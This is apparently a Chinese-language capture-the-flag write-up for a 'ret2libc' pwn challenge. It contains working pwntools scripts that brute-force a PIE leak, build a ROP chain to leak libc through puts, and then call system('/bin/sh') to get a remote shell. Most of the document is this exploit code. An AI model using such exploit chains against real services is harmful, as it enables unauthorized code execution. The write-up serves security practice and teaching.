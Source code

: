 # ret2libc 

## 文件分析

下载`ret2libc`, NX on, PIE on, RELRO full  
ghidra分析为64位程序

## 逆向

main函数中先是scan了一个int，可以利用它来*泄露main的地址*以找到PIE偏移  
然后一个read提供*栈溢出*的空间  
和ciscn那题一样，就能完成ret2libc

## EXPLOIT

通过爆破获取main的偏移，如果打印出来的地址以0000结尾，则爆破成功

```python
# inserted in the code block below
for offset in range(8, 128, 8):
    sh = remote(???, 10022)
    sh.sendline(str(offset).encode())
    data = sh.recvline()
    data = sh.recvuntil(b'sh')
    pieBase = u64(data[-8:-2] + b'\0\0') - main
    print(hex(pieBase))
    sh.close()
```

```python
from pwn import *
sh = remote('???', 10022)
elf = ELF('ret2libc')

sh.sendline(b'56') # Locating address of main on stack
sh.recvline() # skip
data = sh.recvuntil(b'sh')

main = elf.symbols['main']
pieBase = u64(data[-8:-2] + b'\0\0') - main
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x923
mainAddr = pieBase + main

print(hex(pieBase))

# payload 1
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'shoot!\n') # skip
data = sh.recvline()

# 题中已给出libc
libcBase = u64(data[:6] + b'\0\0') - 0x80970
systemAddr = libcBase + 0x4f420
shstrAddr = libcBase + 0x1b3d88
retAddr = pieBase + 0x8bb

sh.sendline(b'0') # 埋伏我一手
# payload 2
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

## 本题获得的教训

由于远端libc的不同，main在stack上的地址也是不一样的

Done.
